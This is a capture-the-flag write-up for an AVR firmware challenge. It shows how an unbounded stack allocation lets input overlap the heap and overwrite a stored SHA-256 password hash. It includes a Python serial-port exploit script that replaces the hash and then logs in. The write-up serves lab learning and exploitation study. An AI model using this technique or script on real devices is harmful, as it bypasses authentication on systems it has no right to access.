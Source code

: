 ## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter mesures, which can be nice obstacles in real firmware.

![unauth](images/unauth1.png)

Here we can see function which takes number as parametr and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
 	* interrupt the current function, plus all further nested function
 	* calls must not require more stack space, or they'll risk to collide
 	* with the data segment.

Really?

The point is that diring input proccessing we can specify input size which is dynamiclly allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that sha256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this porpuse we can count stack frames from initial startup and pridict heap allocatr, but we no need to suffer, becase we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So we send two command, with first on we overwrite stored hash and by second one we succeffuly pass authentication, we heve another one flag and can move on to next challange. You can find full script among files in github repository.